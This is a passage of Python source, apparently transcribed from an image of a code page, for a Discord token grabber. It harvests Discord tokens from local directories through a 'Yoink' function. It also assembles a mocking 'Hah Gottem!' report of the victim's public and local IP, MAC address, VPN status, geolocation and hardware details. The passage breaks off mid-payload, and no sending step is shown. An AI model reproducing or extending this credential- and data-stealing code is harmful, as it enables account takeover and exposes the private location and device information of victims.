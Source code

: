 ```
      output2.write("")
      output2.close()
    else:
      pass

realshit = ""
for Discord, Directory in Directories.items():
    if os.path.exists(Directory):
        Tokens = Yoink(Directory)
        if len(Tokens) > 0:
            for Token in Tokens:
                realshit += f"{Token}\n"

cpufreq = psutil.cpu_freq()
svmem = psutil.virtual_memory()
partitions = psutil.disk_partitions()
disk_io = psutil.disk_io_counters()
net_io = psutil.net_io_counters()

partitions = psutil.disk_partitions()
partition_usage = None
for partition in partitions:
    try:
        partition_usage = psutil.disk_usage(partition.mountpoint)
        break
    except PermissionError:
        continue

system_info = {
    "embeds": [
        {
            "title": f"Hah Gottem! - {host}",
            "color": 8781568
        },
        {
            "color": 7506394,
            "fields": [
                {
                    "name": "GeoLocation",
                    "value": f"Using VPN?: {proxy}\nLocal IP: {localip}\nPublic IP: {publicip}\nMAC Adress: {mac}\n\nCountry: {country} | {loc} | {timezone}\nregion: {region}\nCity: {city} | {postal}\nCurrency: {currency}\n\n\n\n"
                }
            ]
        },
        {
            "fields": [
                {
                    "name": "System Information",
                    "value": f"System: {uname.system}\nNode: {uname.node}\nMachine: {uname.machine}\nProcessor: {uname.processor}\n\nBoot Time: {bt.year}/{bt.month}/{bt.day} {bt.hour}:{bt.minute}:{bt.second}"
                }
            ]
        },
        {
            "color": 15109662,
            "fields": [
                {
                    "name": "CPU Information",
                    "value": f"Psychical cores: {psutil.cpu_count(logical=False)}\nTotal Cores: {psutil.cpu_count(logical=True)}\n\nMax Frequency: {cpufreq.max:.2f}Mhz\nMin Frequency: {cpufreq.min:.2f}Mhz\n\nTotal CPU usage: {psutil.cpu_percent()}\n"
```